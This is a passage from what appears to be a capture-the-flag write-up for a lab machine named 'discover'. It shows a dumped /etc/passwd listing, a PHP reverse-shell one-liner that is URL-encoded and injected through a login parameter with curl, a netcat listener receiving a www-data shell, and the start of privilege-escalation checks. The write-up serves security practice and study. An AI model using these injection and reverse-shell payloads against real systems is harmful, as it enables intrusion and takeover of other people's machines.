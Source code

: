     root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:109::/nonexistent:/usr/sbin/nologin sshd:x:104:65534::/run/sshd:/usr/sbin/nologin discover:x:1000:1000:discover,,,:/home/discover:/bin/bash systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:105:112:MySQL Server,,,:/nonexistent:/bin/false 

# 2. Exploitation

We can see the user ***'discover'*** is on the remote machine.  
Let's try to get a reverse shell to the remote machine. After some checking I found out that the commands ***'nc'*** and ***'bash'*** are not accessible, so get a reverse shell using [***PHP***][1] or [***PYTHON***][2].

    php -r '$sock=fsockopen("10.0.0.27",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

    Url encoded - 
    %70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%30%2e%30%2e%32%37%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27
>
    Remote Machine:
    $ curl http://log.discover.hmv/index.php?username=%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%30%2e%30%2e%32%37%22%2c%34%34%34%34%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27&password=password
>
    Local Machine:
    $ nc -lnvp
    listening on [any] 4444 ...
    connect to [10.0.0.27] from (UNKNOWN) [10.0.0.28] 40632
    $ whoami
    www-data

# 3. Privilege Escalation

    www-data@debian:/home/discover$ sudo -ll
    sudo -ll
    Matching Defaults entries for www-data on debian:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on debian:


[1]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php"
[2]: "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python"
[3]: "https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/"